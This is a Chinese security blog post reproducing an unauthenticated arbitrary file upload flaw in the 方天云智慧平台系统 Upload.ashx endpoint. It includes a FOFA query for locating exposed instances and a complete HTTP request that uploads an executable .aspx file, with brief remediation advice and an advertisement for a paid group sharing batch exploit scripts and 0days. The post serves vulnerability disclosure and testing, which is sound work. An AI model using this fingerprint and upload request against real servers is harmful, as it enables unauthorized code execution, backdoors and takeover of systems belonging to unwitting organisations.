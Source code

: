 #  「漏洞复现」方天云智慧平台系统 Upload.ashx 任意文件上传漏洞   
冷漠安全  冷漠安全   2024-08-05 10:33  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_gif/rPMtsalfZ0pFeDPJNnYaE7pYibBLQrUbLZwqelcotCqhYf0seBKfHroSUm8XuHyka5I3SmicWcJYUpZbFmxJCZ1Q/640?wx_fmt=gif&from=appmsg "")  
  
**0x01 免责声明**  
  
**免责声明**  
  
请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任。工具来自网络，安全性自测，如有侵权请联系删除。本次测试仅供学习使用，如若非法他用，与平台和本文作者无关，需自行负责！！！  
  
0x02  
  
**产品介绍**  
  
方天云智慧平台系统，作为方天科技公司的重要产品，是一款面向企业全流程的业务管理功能平台，集成了ERP（企业资源规划）、MES（车间执行系统）、APS（先进规划与排程）、PLM（产品生命周期）、CRM（客户关系管理）等多种功能模块，旨在通过云端服务为企业提供数字化、智能化的管理解决方案。  
  
0x03  
  
**漏洞威胁**  
  
方天云智慧平台系统 Upload.ashx 接口处存在任意文件上传漏洞，未经身份验证的攻击者可通过该漏洞在服务器端任意执行代码，写入后门，获取服务器权限，进而控制整个 web 服务器。  
  
0x04  
  
**漏洞环境**  
  
FOFA:  
```
body="AjaxMethods.asmx/GetCompanyItem"
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rPMtsalfZ0qLXIh65ibQACdGqdODNDC7OYOlG6YWnYKowdScKEoFmdHx3uyZiatWNpxpHcj7T9R2SHmQWGkYA2fw/640?wx_fmt=png&from=appmsg "")  
  
0x05  
  
**漏洞复现**  
  
PoC  
```
POST /Upload.ashx HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:128.0) Gecko/20100101 Firefox/128.0
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarySl8siBbmVicABvTX
Connection: close


------WebKitFormBoundarySl8siBbmVicABvTX
Content-Disposition: form-data; name="file"; filename="qwe.aspx"
Content-Type: image/jpeg
<%@Page Language="C#"%><%Response.Write("hello");System.IO.File.Delete(Request.PhysicalPath);%>
------WebKitFormBoundarySl8siBbmVicABvTX--
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rPMtsalfZ0qLXIh65ibQACdGqdODNDC7Oib3GEkTho76RkN9LV0YHoss8iaDMNbnghTQyyVaqhibeWZJzRcAH8EV4w/640?wx_fmt=png&from=appmsg "")  
  
验证  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rPMtsalfZ0qLXIh65ibQACdGqdODNDC7OC5F293RWSEk8PhqCOMiaRsslGonicNJ1uLMwUKu6HNxRMxnJAzJicOBrQ/640?wx_fmt=png&from=appmsg "")  
  
  
0x06  
  
**批量脚本验证**  
  
Nuclei验证脚本已发布  
知识星球：冷漠安全  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rPMtsalfZ0qLXIh65ibQACdGqdODNDC7OF3bribviaMiamPnD9OyF2ribYvXGa1Js9kKPdAaE32ibzvSs4X2iaTbvnO0A/640?wx_fmt=png&from=appmsg "")  
  
  
0x07  
  
**修复建议**  
  
关闭互联网暴露面或接口设置访问权限  
  
升级至安全版本  
  
0x08  
  
**加入我们**  
  
漏洞详情及批量检测POC工具请前往知识星球获取  
  
知识星球：冷漠安全交个朋友，限时优惠券：加入立减25星球福利：每天更新最新漏洞POC、资料文献、内部工具等  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rPMtsalfZ0qLXIh65ibQACdGqdODNDC7O38j35XyCyCx7wHDyTUcriaIa6LeZKz77iaBicSIQxXTPdMvZhiabnMhIQQ/640?wx_fmt=png&from=appmsg "")  
  
  
「星球介绍」：  
  
本星球不割韭菜，不发烂大街东西。欢迎进来白嫖，不满意三天退款。  
  
本星球坚持每天分享一些攻防知识，包括攻防技术、网络安全漏洞预警脚本、网络安全渗透测试工具、解决方案、安全运营、安全体系、安全培训和安全标准等文库。  
  
本星主已加入几十余个付费星球，定期汇聚高质量资料及工具进行星球分享。  
  
  
「星球服务」：  
  
  
加入星球，你会获得：  
  
  
♦ 批量验证漏洞POC脚本  
  
  
♦ 0day、1day分享  
  
  
♦ 汇集其它付费星球资源分享  
  
  
♦ 大量的红蓝对抗实战资源  
  
  
♦ 优秀的内部红蓝工具及插件  
  
  
♦ 综合类别优秀Wiki文库及漏洞库  
  
  
♦ 提问及技术交流  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_gif/rPMtsalfZ0qLXIh65ibQACdGqdODNDC7O6CetsQwpDocTvAuGe6PFlqH3KqLHhFGL9pYFHMfRiccA4wFiaUTuoAdg/640?wx_fmt=gif&from=appmsg "")  
  
  
  

